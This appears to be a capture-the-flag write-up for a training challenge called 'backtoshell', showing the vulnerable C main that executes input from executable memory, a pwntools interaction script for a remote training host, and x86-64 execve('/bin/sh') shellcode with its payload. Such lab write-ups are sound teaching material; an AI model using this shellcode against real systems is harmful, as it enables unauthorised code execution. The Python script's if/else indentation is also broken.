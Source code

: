 # backtoshell

This is an easy shellcode challenge, it presents this main:
```c
void main(void)

{
  code *shellcode;
  
  shellcode = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  read(0,shellcode,0x200);
  (*shellcode)(0,0,0,0,0,0);
  return;
}
```
as we can see it create a memory space that of 0x1000 bytes that is readable writable and executable.
Then reads directly in this memory area and call the memory area as a function.
We can inject in that memory area a shellcode and that will be executed!
Our aim is to create a shellcode that will spawn a shell.
First of all we create a script python to interact with the binary:
```python
from pwn import *

import time
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
exename="./backtoshell"
port=2015
if "REMOTE" not in args:
	r = process(exename)
	if "NOGDB" not in args:
		gdb.attach(r, """
			# b d
			c
			""")
	else:
	r = remote("bin.training.offdef.it", port)
r.interactive()
```

in GDB we can see that the when our input is called as a function the address to our input is in rax, so we can create a shellcode in this way:
```python
asm_code="""
mov rdi, rax
add rdi,16
mov rax, 0x3b
syscall
"""
shellcode=asm(asm_code)
```
the "add rdi 16" instruction is to make rdi point to "/bin/sh/\x00", that we will put just after the shellcode in our payload. 16 is just the size of the shellcode.
Mov rax 0x3b and syscall will make our machine execute execve.
at the end we will send the payload in this way:
```python
payload=shellcode+b"/bin/sh\x00"
r.sendline(payload)
```
